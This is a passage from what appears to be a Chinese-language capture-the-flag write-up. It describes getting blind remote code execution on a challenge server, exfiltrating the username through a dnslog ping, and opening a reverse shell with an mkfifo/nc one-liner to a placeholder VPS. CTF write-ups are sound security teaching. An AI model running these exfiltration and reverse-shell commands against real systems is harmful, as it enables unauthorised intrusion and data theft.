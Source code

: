 然后在尝试command路由发现可以了，webhook.site也能接收到请求

![](./images/image8.webp)

然后就是rce了，随便执行力几个命令发现是无回显类型的，先尝试dnslog外带数据

发现很多命令还是没有把数据带出来....后端还有黑名单啊？这怎么做

成功执行的命令只有

```bash
ping \`whoami`.etk6u9.dnslog.cn
```

![](./images/image9.webp)

感觉fuzz貌似也搞不了，再试试反弹shell

试了好几个命令都没成功差点就死心了没想到最后一个可以，也是成功拿shell拿flag

直接展示成功的命令

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc VPS_ip port >/tmp/f
```
